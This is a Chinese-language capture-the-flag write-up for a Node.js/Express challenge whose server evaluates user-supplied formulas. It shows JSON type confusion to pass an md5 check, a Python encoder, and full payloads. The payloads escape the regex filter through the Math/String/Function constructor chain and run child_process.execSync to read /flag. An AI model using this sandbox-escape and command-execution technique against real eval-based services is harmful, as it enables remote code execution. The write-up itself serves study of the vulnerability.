


## 思路

1. 打开页面，审计源码。   
   
2. 本题使用了express服务器，基于nodejs，需要输入正确的`e、first、second`，服务器会将公式经过正则过滤后执行，调用eval函数。
    ```javascript
    app.post('/', function (req, res) {
    let result = '';
    const results = req.session.results || [];
    const { e, first, second } = req.body;
    if (first && second && first.length === second.length && first!==second && md5(first+keys[0]) === md5(second+keys[0])) {
        if (req.body.e) {
        try {
            result = saferEval(req.body.e) || 'Wrong Wrong Wrong!!!';
        } catch (e) {
            console.log(e);
            result = 'Wrong Wrong Wrong!!!';
        }
        results.unshift(`${req.body.e}=${result}`);
        }
    }
    ```
3. 两个验证码内容不同，长度相等，且加盐后的md5值相同，利用js强制类型转化。由于后端可解析json，利用json数据构造类型转换。利用burpsuite是需要将请求头文本内容改为`Content-Type: application/json`，传入以下json数据，得到公式结果。
- {"e":"1+1","first":"1","second":[1]}
- {"e":"1+1","first":"1","second":"1"}
  
4. 参考[wp](https://blog.csdn.net/weixin_43610673/article/details/105898440)。为了绕过正则表达式，使用了箭头函数从原型链导出String和Function，脚本如下
```python
import re
encode = lambda code: list(map(ord,code))
decode = lambda code: "".join(map(chr,code))
a=f"""
(m0=>(
		m0=m0.constructor,
		m0.x=m0.constructor(
			m0.fromCharCode({encode("return process.mainModule.require('child_process').execSync('cat /flag')")})
		)()
	))(Math+1)
"""
a=re.sub(r"[\s\[\]]", "", a).replace("m0","Math")
print(a)
```
5. payload如下
- {"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":"1","second":[1]}
- {"e":"(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode(114,101,116,117,114,110,32,112,114,111,99,101,115,115,46,109,97,105,110,77,111,100,117,108,101,46,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,101,120,101,99,83,121,110,99,40,39,99,97,116,32,47,102,108,97,103,39,41))()))(Math+1)","first":{"length":"1"},"second":{"length":"1"}}
  

6. payload分为两部分，构造函数利用链+经过String.fromCharCode编码的载荷
- 构造函数利用链  ```(Math=>(Math=Math.constructor,Math.x=Math.constructor(Math.fromCharCode({编码后的payload}))()))(Math+1)```
- 未经过编码的载荷  ```return process.mainModule.require('child_process').execSync('cat /flag')```
## 总结
之前只知道express和原型链，现在算是加深了对他们的理解，有点类似于php魔法函数的感觉。本题核心漏洞点在于使用eval函数执行用户可控的数据，且正则过滤不完全。
- 两个验证码内容不同，长度相等，且加盐后的md5值相同，考虑强制类型转化
    - {"first":"1","second":[1]}
    - {"first":"1","second":"1"}
- 使用原型链绕过re，构造出String.fromCharCode函数，编码载荷让后端express执行。
- [nodejs常见漏洞](https://threezh1.com/2020/01/30/NodeJsVulns/)